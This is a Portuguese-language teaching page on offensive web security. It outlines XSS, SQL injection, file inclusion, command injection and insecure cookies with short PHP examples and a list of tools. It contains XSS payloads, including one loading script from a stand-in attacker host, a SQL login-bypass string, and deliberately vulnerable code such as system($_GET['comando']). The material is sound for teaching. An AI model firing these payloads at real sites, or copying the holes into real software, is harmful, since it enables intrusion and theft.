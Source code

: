 # Segurança ofensiva

### Introdução
- Blackhats x Whitehats
- Mercado de segurança da informação

### XSS
- Refletido:
```php
# http://localhost/xss.php?mensagem=<script>alert('XSS');</script>
# http://localhost/xss.php?mensagem=<marquee><h1>XSS</h1></marquee>
# http://localhost/xss.php?mensagem=<script src=http://atacante.segphp4linux.com.br/domal.js></script>

echo isset($_GET['mensagem']) ? $_GET['mensagem'] : '';
```

- Residente:
```php
# http://localhost/xss_residente.php?mensagem=<script>alert('XSS');</script>

session_start();

if (isset($_GET['variavel'])) {
    $_SESSION['variavel'] = $_GET['variavel'];
}

echo isset($_SESSION['variavel']) ? $_GET['variavel'] : "" ;
```

- XSHM - Cross-Site History Manipulation
```php
<?php
/*
http://vitima.segphp4linux/xss_xshm.php?mensagem=<script>alert(history.length);</script>
*/

echo isset($_GET['mensagem']) ? $_GET['mensagem'] : '';
```

- [CSRF - Cross-Site Request Forgery](https://pt.wikipedia.org/wiki/Cross-site_request_forgery)

- [Click Jacking](http://sectheory.com/clickjacking.htm) - [exemplo](http://koto.github.io/blog-kotowicz-net-examples/cursorjacking/)

### [SQL Injection](https://www.acunetix.com/websitesecurity/sql-injection2/)
- [Comum](scripts/sqli/sqlinjection.php)
```php
# login=' or '1'='1
# senha=' or '1'='1

if ($_POST) {
    $query = "SELECT * FROM usuarios WHERE user='$user' AND pass='$pass' ";

    echo $query;
}
```
- Union inband
- Batched
- Blind
- Error Based

### [LDAP Injection](https://www.owasp.org/index.php/LDAP_Injection_Prevention_Cheat_Sheet)

### [Insecure Cookie Handling](http://kb.enprobe.io/vulnerabilities/insecure-cookies.html)
-- Exemplo
```php
if ($_GET['login'] == 'naousehardcode' && $_GET['senha'] == 'naousehardcode') {
    setcookie('autenticado', 1);
}

if (!$_COOKIE['autenticado'] == 1) {
    die('Usuario nao autenticado!');
}
```

- [RFI/LFI - Remote/Local File Inclusion](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)
-- Exemplo
```php
require($_GET['modulo']);
```

- [Command Injection](https://www.owasp.org/index.php/Command_Injection)
-- Exemplo
```php
system($_GET['comando']);
```

- [Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload)

- [Web Crawlers](https://pt.wikipedia.org/wiki/Rastreador_web)
-- Exemplo
```php
# Exemplo: https://stackoverflow.com/a/2313146

function crawl_page($url, $depth = 5) {
    if($depth > 0) {
        $html = file_get_contents($url);

        preg_match_all('~<a.*?href="(.*?)".*?>~', $html, $matches);

        foreach($matches[1] as $newurl) {
            crawl_page($newurl, $depth - 1);
        }

        file_put_contents('results.txt', $newurl."\n\n".$html."\n\n", FILE_APPEND);
    }
}

crawl_page('http://www.domain.com/index.php', 5);
```

- [Session fixation/hijacking](https://www.owasp.org/index.php/Session_fixation)

### [Brute force](https://pt.wikipedia.org/wiki/Ataque_de_for%C3%A7a_bruta)

### [Man In The Middle](https://www.owasp.org/index.php/Man-in-the-middle_attack)

### [DDOS](https://pt.wikipedia.org/wiki/Ataque_de_nega%C3%A7%C3%A3o_de_servi%C3%A7o)

### Algumas Ferramentas
- [Kali Linux](https://www.kali.org/)
- [Metasploint](https://www.metasploit.com/)
- [nmap](https://nmap.org/)
- [tcpdump](https://www.tcpdump.org/tcpdump_man.html)
- [Wireshark](https://www.wireshark.org/)
- [Ettercap](http://www.ettercap-project.org/ettercap/)
- [SQLMap](http://sqlmap.org/)
- [PHP Crawler](http://phpcrawl.cuab.de/)
- [John the Ripper](http://www.openwall.com/john/)